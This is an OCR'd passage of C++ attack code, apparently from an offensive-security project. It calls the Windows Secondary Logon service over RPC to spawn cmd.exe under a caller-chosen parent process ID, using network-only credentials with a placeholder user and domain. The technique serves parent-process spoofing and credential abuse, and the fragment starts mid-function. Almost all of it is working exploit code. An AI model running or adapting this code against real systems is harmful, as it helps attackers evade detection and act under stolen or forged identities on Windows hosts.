 ```c++
		return 1;
	}
	if (strcmp(argv[1], "-pid") == 0)
		PID_PARENT = atoi(argv[2]);

	else
		return 1;

    RPC_WSTR binding;
    handle_t hRpc = NULL;

	SECL_REQUEST seclReq = { 0 };
	SECL_RESPONSE seclRep = { 0 };

	STARTUPINFOW_RPC siRpc = { 0 };
	siRpc.cb = sizeof(STARTUPINFOW_RPC);

	seclReq.StartupInfo = siRpc;
	seclReq.dwProcessId = PID_PARENT;
	seclReq.dwLogonFlags = LOGON_NETCREDENTIALS_ONLY;
	seclReq.dwCreationFlags = CREATE_NEW_CONSOLE | CREATE_DEFAULT_ERROR_MODE | CREATE_NEW_PROCESS_GROUP;

	Init_UNICODE_STRING(L"cmd.exe",
		&seclReq.ApplicationName);
	Init_UNICODE_STRING(L"\"C:\\Windows\\System32\\cmd.exe\" /k C:\\Windows\\System32\\whoami.exe",
		&seclReq.CommandLine);
	Init_UNICODE_STRING(L"C:\\Windows\\System32", 
		&seclReq.CurrentDirectory);

	Init_UNICODE_STRING(L"H0ud1n1", 
		&seclReq.Username);
	Init_UNICODE_STRING(L"houdini.local", 
		&seclReq.Domain);
	Init_UNICODE_STRING(L"", 
		&seclReq.Password);

    auto status = RpcStringBindingCompose(nullptr,
        (PWSTR)L"ncalrpc",
        nullptr,
        (PWSTR)L"SECLOGON",
        nullptr,
        &binding);

    assert(status == RPC_S_OK);

    status = RpcBindingFromStringBinding(binding,
        &hRpc);

    assert(status == RPC_S_OK);

	SeclCreateProcessWithLogonW(hRpc, (PSECL_REQUEST)&seclReq, (PSECL_RESPONSE)&seclRep);
	printf("\t\t[+] Parent Process - Pid: `%d`\n", PID_PARENT);
	printf("\t\t[+] Secondary Logon Response - Pid: `%d`\n", seclRep.dwProcessId);

	midl_user_free(seclReq.CommandLine.Buffer);
	midl_user_free(seclReq.ApplicationName.Buffer);
	midl_user_free(seclReq.CurrentDirectory.Buffer);
	midl_user_free(seclReq.Username.Buffer);
	midl_user_free(seclReq.Domain.Buffer);
	midl_user_free(seclReq.Password.Buffer);

	return 0;
```